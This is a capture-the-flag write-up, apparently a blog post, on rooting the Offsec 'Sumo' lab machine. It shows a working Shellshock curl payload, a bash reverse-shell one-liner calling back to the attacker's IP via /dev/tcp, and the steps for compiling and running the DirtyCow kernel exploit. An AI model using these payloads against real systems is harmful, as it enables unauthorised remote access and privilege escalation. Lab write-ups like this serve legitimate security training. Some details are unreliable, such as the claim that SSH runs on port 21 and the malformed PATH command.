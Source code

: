 ```yaml
---
layout: post
title: Sumo
date: '2024-04-29'
description: "Sumo is an easy lab on offsec proving grounds labs"
categories: [offsec]
---
```


## MACHINE INFO
> **[Sumo](https://portal.offsec.com/labs/play)** is an easy linux machine which leverages a shellshock vulnerability to gain a shell to the target. To escalate privileges we use a kernel exploit called dirtycow. 

## WALKTHROUGH
Perform an Nmap scan on the target to identify open ports and services running on them.
```shell
─$ sudo nmap -sCV -A 192.168.164.87 -p- --min-rate=10000ms
[sudo] password for p0s3id0n: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-28 20:18 BST
Warning: 192.168.164.87 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.164.87
Host is up (0.38s latency).
Not shown: 44378 closed tcp ports (reset), 21155 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/28%OT=22%CT=1%CU=30560%PV=Y%DS=4%DC=T%G=Y%TM=662E
OS:A168%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%TS=A)SEQ(SP=105
OS:%GCD=1%ISR=108%TI=Z%TS=9)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%TS=7)SEQ(SP=105%G
OS:CD=1%ISR=10A%TI=Z%TS=8)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%II=I%TS=8)OPS(O1=M5
OS:51ST11NW5%O2=M551ST11NW5%O3=M551NNT11NW5%O4=M551ST11NW5%O5=M551ST11NW5%O
OS:6=M551ST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%D
OS:F=Y%T=40%W=3908%O=M551NNSNW5%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=O%F=AS%RD=0%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=EEDC%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   490.78 ms 192.168.45.1
2   476.76 ms 192.168.45.254
3   490.71 ms 192.168.251.1
4   490.92 ms 192.168.164.87

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.68 seconds
```

From the scan, we identified ssh running on port 21 and http running on port 80.

We proceeded with enumeration on port 80 and got redirected to a website, which didn't have a lot of information.
![img-description](1.png)

We proceeded to scan the website for hidden directories using gobuster.
```shell
$ gobuster dir -u http://192.168.164.87/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 177]
/index                (Status: 200) [Size: 177]
/server-status        (Status: 403) [Size: 295]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

From the output, the only interesting directory was the /cgi-bin/ directory but it has a 403 status code meaning we are forbidden from visiting the directory.

We scanned the /cgi-bin/ directory to find if there are any more hidden sub-directories on it.
```shell
$ gobuster dir -u http://192.168.164.87/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/test                 (Status: 200) [Size: 14]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The /test/ directory did not have any more information. At this point it felt like we were going down a rabbit hole.
![img-description](2.png)
I used nikto to scan the website for vulnerabilites.
The output of the nikto scan pointed us towards a shellshock vulnerability.
![img-description](3.png)
> Shellshock vulnerability is bash shell vulnerability that allows execution of arbitrary commands through environmental variable.

Using the information at (https://github.com/opsxcq/exploit-CVE-2014-6271) relevant to the shellshock vulnerability identified by nikto. 

We tested how to exploit the vulnerability using 
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://192.168.164.87/cgi-bin/test
```
![img-description](4.png)
Let's breakdown the command:
> `curl`: This is a command-line tool used to transfer data to or from a server. It's commonly used to make HTTP requests.
- **`() { :; };`**: This is the Shellshock payload. It defines a function without a name (`(){}`), followed by a colon `:`, which is a no-op command in Bash. This payload exploits the vulnerability in Bash (CVE-2014-6271) by executing arbitrary commands after the function definition.
- **`echo; echo;`**: These commands are used to insert empty lines in the HTTP request. They may be included to ensure that the injected payload is separated from other headers or content in the request.
- **`/bin/bash -c 'whoami'`**: This is the command that the attacker wants to execute on the target server. In this case, it's running the `whoami` command to determine the username of the user executing the CGI script.
- **`http://192.168.164.87/cgi-bin/test`**: This is the URL of the CGI script on the target server that the attacker is attempting to exploit.

Now that we know the exploit works, why not try editing the exploit to give us a revrese shell to the target?
Using (https://www.revshells.com/) we generated a single bash one-liner reverse shell payload.
Payload:
```shell
/bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1
```
Payload used:
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" http://192.168.164.87/cgi-bin/test
```
Before running the command, ensure the netcat listener is set. Once we ran the command, we successfully got a shell as www-data!!
![img-description](5.png)

We wanted to escalate our privliges to root and for that we used linpeas. 
> **Linpeas**  is a script used for privilege escalation on Linux systems during penetration testing or security assessments. You can get it from (https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

We uploaded linpeas to the target through a python http.server and ran it. 
![img-description](6.png)
![img-description](7.png)
From the output of running linpeas, we got the following information:
- The target is running on Ubuntu version 12.04 
- There is a dirtycow exploit that can be used to exploit the kernel and possibly give us root privileges. 

To exploit this, we used : (https://github.com/FireFart/dirtycow/blob/master/dirty.c)
> **Dirtycow** is a security vulnerability in the Linux kernel that allows an unprivileged local user to gain write access to read-only memory mappings.

Once we uploaded the dirtycow exploit on our attack machine, we uploaded it to the target machine using python http.server. 
Once the exploit was uploaded, we compiled it using 
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```
We encountered a compilation error 
![img-description](10.png)
We solved the error using
```shell
`PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH`
```

Then we compiled it again and this time we successfully managed to the exploit.
The application prompts us to set a new password of choice and for this we use `blueberry`
![img-description](9.png)
Once the password is set, the application informs us that we can login as the user 'firefart' using the newly set password 'blueberry'
![img-description](11.png)

Now that we have the username, target ip and password, we used ssh to login as firefart.
After successfully logging in as firefart, I used the following command to overwrite the password.
```shell
mv /tmp/passwd.bak /etc/passwd
```

After, we confirmed that we are root, navigated to the /root directory and got the root flag!!
![img-description](12.png)
